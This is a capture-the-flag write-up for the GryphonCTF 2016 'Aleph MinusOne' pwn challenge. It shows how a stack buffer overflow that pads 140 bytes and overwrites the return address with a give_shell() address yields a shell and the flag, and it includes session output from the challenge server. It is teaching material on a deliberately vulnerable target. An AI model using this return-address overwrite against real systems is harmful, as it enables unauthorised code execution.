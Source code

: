 # GryphonCTF_2016: Aleph MinusOne

**Category:** Pwn
**Points:** 15
**Description:**

>Do Aleph One proud.
nc play.spgame.site 1346
Creator - Jeremy Heng (@amon)

## Write-up
**_Credits to @zst123 [Manzel Seet] for helping with discovering buffer exploit length._**

Now we are given a chance to do buffer overflow!

    $ nc play.spgame.site 1346
    Base Pointer: 0xffb83368
    Address of Buffer: 0xffb832e0
    Size of buffer: 128
    give_shell() function: 0x804852d
    Your exploit string: d
    Contents of Buffer: d
    Return Address: 0x8048633

We know that the `give_shell()` function is at `0x804852d`. We also know that the size of the buffer is `128`, and by adding 12 bytes and appending our `give_shell()` function address to overwrite the RET address, we gain shell.

    $ ./script.py 
    0
    RECV>>>Base Pointer: 0xffdba9b8
    RECV>>>Address of Buffer: 0xffdba930
    Size of buffer: 128
    give_shell() function: 0x804852d
    Your exploit string:
    ['08', '04', '85', '2d']
    RECV>>>Contents of Buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA-?
    RECV>>>Return Address: 0x804852d
    $ cat /home/alephuser/flag
    RECV>>>GCTF{th3_op3n355_0f_t1m3}

Final [script here](script.py).

Therefore, flag is `GCTF{th3_op3n355_0f_t1m3}`.
